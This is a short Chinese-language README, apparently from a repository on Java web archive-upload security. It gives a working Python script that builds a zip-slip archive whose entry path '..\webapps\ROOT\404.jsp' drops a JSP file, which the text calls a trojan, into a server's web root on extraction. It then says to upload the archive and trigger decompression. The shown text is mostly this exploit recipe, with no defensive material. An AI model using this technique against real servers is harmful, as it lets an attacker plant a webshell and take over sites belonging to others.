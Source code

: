 # Java-Compressed-file-security java web 压缩文件 安全 漏洞

## 0x01 制作目录穿越-恶意压缩文件

代码：

```
#coding=utf-8

import zipfile  
import sys

if __name__ == "__main__":  
    try:
        with open("404.jsp", "r") as f:
            binary = f.read()
            zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
            info = zipfile.ZipInfo("test.zip")
            zipFile.writestr("..\\webapps\\ROOT\\404.jsp", binary)
            zipFile.close()
    except IOError as e:
        raise e

```

## 0x02 文件上传，点击解压缩，木马文件解压到网站webapps目录



